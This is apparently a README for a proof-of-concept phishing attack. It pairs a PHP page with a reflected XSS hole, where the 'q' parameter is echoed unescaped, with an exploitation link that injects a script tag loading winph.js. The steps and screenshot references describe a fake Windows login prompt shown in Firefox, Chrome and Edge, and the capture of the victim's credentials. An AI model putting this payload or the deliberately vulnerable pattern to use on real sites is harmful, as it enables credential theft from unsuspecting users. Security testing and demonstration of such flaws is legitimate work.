 # [Phish] Windows Authentication Prompt

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

### Vulnerable Page (`rxss.php`)

```
<!DOCTYPE html>
<html>
  <body>
    <h2>Test page</h2>
    <p>Test content</p>
    <?php echo '<div>' . $_GET['q'] . '</div>'; ?>
  </body>
</html>
```

## Exploitation Steps

1. victim user clicks link

```
http://192.168.5.13/rxss.php?q=<script src=http://192.168.5.13/winph.js></script>
```

2. victim user authenticates

*(attacker obtains credentials)*

## Screenshots

*(Mozilla FireFox)*
![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png)

*(Google Chrome)*
![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png)

*(Microsoft Edge)*
![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png)

*(captured credentials)*
![Image](screenshots/Windows_phish_-_cred_exfil_-_1-1.png)
